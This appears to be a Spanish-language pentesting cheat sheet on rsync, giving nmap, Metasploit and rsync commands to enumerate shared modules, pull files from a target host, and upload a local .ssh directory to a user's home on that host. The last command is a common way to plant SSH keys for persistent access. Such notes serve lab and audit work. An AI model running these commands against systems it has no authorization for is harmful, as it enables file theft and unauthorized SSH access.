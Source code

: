 # RSycn

{% hint style="info" %}
**Rsync** es una herramienta de software para la sincronización de archivos y directorios entre dos ubicaciones en un sistema de archivos, utilizada comúnmente en sistemas Unix y Linux.
{% endhint %}

## Enumeración de carpetas compartidas

### Nmap

```bash
nmap -sV --script "rsync-list-modules" -p 873 192.168.1.1
```

### Metasploit

```bash
use auxiliary/scanner/rsync/modules_list
```

### RSync

#### Sin credenciales

```bash
rsync -av --list-only rsync://192.168.1.1:873
```

#### Con credenciales

```bash
rsync -av --list-only rsync://username@192.168.1.1
```

## Descargar archivos del host a la maquina anfitrión

```bash
rsync -av rsync://username@192.168.1.1:8730/shared_name ./ubicacion/local
```

## Subir archivos a la maquina host

```
rsync -av home_user/.ssh/ rsync://username@192.168.0.123/home_user/.ssh
```
